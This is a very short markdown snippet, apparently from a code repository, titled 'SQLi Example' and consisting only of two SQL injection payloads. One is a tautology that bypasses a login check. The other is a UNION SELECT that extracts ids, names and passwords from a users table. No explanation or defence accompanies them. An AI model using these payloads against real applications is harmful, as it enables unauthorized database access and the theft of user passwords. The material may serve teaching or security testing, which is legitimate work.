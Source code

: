 # SQLi Example

```
Zor-El' OR 1=1 --
```

```
Zor-El' OR 1=1 UNION SELECT id, fname, password, age FROM users --
```
